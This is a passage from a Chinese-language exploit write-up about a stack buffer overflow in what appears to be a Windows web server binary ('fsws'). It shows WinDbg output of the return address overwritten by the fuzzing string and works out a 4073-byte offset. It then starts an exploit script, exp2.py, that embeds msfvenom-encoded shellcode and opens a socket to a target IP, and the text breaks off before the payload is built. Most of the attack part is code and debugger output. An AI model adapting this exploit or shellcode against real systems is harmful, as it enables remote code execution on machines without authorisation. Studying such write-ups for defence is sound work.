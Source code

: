 ```
03185f6c  03185fa4 005a180c 030849f8 030849a8
03185f7c  02ebe1c4 ffffffff 031871f8 00001007
03185f8c  030849f8 030849a8 00000000 00000000
03185f9c  00000000 03086000 656c6573 2a207463
03185fac  6f726620 7173206d 6261746c 6c20656c
03185fbc  74696d69 00003120 00000000 00000000
03185fcc  00000000 00000000 00000000 00000000
03185fdc  00000000 00000000 00000000 00000000
```
然后一直单步步过直到遇到`ret`指令或者触发漏洞时停下，实际上它在执行`ret`之前并不会触发漏洞
```
0:009> 
eax=00000000 ebx=00001007 ecx=41414141 edx=00250000 esi=031871f8 edi=ffffffff
eip=00497562 esp=03186fb0 ebp=031875f4 iopl=0         nv up ei pl nz ac po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000212
fsws+0x97562:
00497562 c20c00          ret     0Ch
0:009> dd esp
03186fb0  41414141 41414141 41414141 41414141
03186fc0  41414141 41414141 41414141 41414141
03186fd0  41414141 41414141 41414141 41414141
03186fe0  41414141 41414141 41414141 41414141
03186ff0  41414141 41414141 41414141 41414141
03187000  41414141 41414141 41414141 41414141
03187010  41414141 41414141 41414141 41414141
03187020  41414141 41414141 05130027 00000000
```
可以看到，函数返回时返回地址已经被畸形字符串覆盖，而且可以计算出`retAddr与payload首部距离=0x03186fb0-0x03185fa4-len("select * from sqltable where name='")=4073`，于是又可以写出利用返回地址覆盖的exp，这里的shellcode仍然是（一）的shellcode
```python
# coding=utf-8
# fileName: exp2.py
# usage: python exp2.py ip
# shellcode by 'msfvenom' use: msfvenom -p windows/exec CMD=calc.exe -e
#                                x86/shikata_ga_nai -i 2 -f python -b '\x00\x0a\x0d\x20\x5c\x2c\x25\x2f'

from socket import *
import sys

buf =  ""
buf += "\xbe\xa6\x51\x73\xac\xdb\xcc\xd9\x74\x24\xf4\x5a\x29"
buf += "\xc9\xb1\x38\x83\xc2\x04\x31\x72\x0e\x03\xd4\x5f\x91"
buf += "\x59\xa6\xfb\x5a\x4e\x3f\x21\xae\x57\xcb\xf2\xdb\x30"
buf += "\x18\x32\x92\xf0\x6f\xb4\xc6\xf1\xff\x27\x6a\x35\x60"
buf += "\xaa\x75\xa3\xe9\x46\x67\x2d\x92\xbd\x0c\xb1\x2a\xa9"
buf += "\xdd\xf2\xba\x76\xba\xf9\x3e\x39\x34\xbc\xa1\xe7\xc0"
buf += "\x71\xf5\x6f\x3c\x8d\xac\xd1\x7c\xf1\x87\xa9\x6a\x4e"
buf += "\xc7\xba\xfc\xcf\xb2\x52\x7c\x1c\x32\x4f\x4a\x67\x71"
buf += "\x3f\x37\x08\xf2\x6b\xb5\x5b\x33\xc4\x79\x61\x8f\xe5"
buf += "\x9f\xc2\x86\xc0\x88\xb4\x56\x33\x56\xfd\x42\xcf\x68"
buf += "\x61\xff\xd3\xd6\x40\x45\x24\x48\x5a\xc5\xcb\x5e\xfd"
buf += "\x4a\xa1\xb1\xa6\xb6\xf0\x37\x98\x12\x18\x14\x7d\x0f"
buf += "\xd3\x1f\xea\xf6\x50\x97\xdc\x75\x9d\x34\x6f\xfc\x56"
buf += "\xe7\xec\xf6\x1b\x6f\xf5\x57\x4b\xd9\xe4\x68\x45\xcf"
buf += "\x58\x76\x4e\x9d\x53\x7a\x62\x6c\x34\xd8\x86\xed\x5a"
buf += "\xf4\x82\x93\x53\x18\xe6\x04\xe8\xd3\x12\x6a\xa1\xa3"
buf += "\xe6\xf0\x4e\x53\x65\x24\xd0\xf2\xa5\xfd\x4d\x11\xa4"
buf += "\xa8\x1b\x4c\x3e\x13\xc3\xfe\x17\x5b\x08\x16\x50\xfe"
buf += "\x1c\xb9\xb8\xee\x74\x7b\x3c\x82\x0c\x26\x39\x72\x77"
#247 bytes
RHOST = sys.argv[1]
RPORT = 80
payload = ''
```